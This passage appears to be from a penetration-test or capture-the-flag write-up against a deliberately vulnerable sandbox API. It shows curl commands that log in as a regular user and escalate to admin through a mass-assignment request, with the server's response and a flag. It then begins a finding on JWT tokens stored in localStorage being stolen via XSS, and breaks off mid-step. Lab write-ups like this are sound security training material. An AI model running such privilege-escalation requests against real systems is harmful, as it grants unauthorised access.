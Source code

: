 **Prerequisites:**
Valid JWT token from authentication

**Exploitation Steps:**

1. Authenticate as a regular user to obtain JWT token:
    
    ```bash
    curl -X POST <http://capital-api.sandbox.local:8000/api/v2/users/login> \\
      -H "Content-Type: application/json" \\
      -d '{"user": {"email": "Pikachu@checkmarx.com", "password": "snorlax"}}'
    
    ```
    
2. Use the JWT token to escalate privileges via mass assignment:
    
    ```bash
    curl -X PUT <http://capital-api.sandbox.local:8000/api/user> \\
      -H "Content-Type: application/json" \\
      -H "Authorization: Token [JWT_TOKEN]" \\
      -d '{"user": {"admin": true}}'
    
    ```
    
3. Server responds with elevated privileges:
    
    ```json
    {
      "user": {
        "username": "Pikachu",
        "email": "Pikachu@checkmarx.com",
        "admin": true,
        "token": "[NEW_ADMIN_TOKEN]"
      }
    }
    
    ```
    

**Proof of Impact:**
Response shows `"admin": true` and includes flag `flag{M4sS_AsS1gnm3nt}` confirming successful privilege escalation from regular user to admin.

### AUTH-VULN-04: Session Hijacking via JavaScript-Accessible Tokens

**Summary:**

- **Vulnerable location:** Frontend application localStorage storage
- **Overview:** JWT tokens stored in localStorage are accessible to JavaScript, enabling XSS-based session hijacking
- **Impact:** Any XSS vulnerability can steal authentication tokens and hijack user sessions
- **Severity:** High

**Exploitation Steps:**

1. Access the frontend application via browser:
    
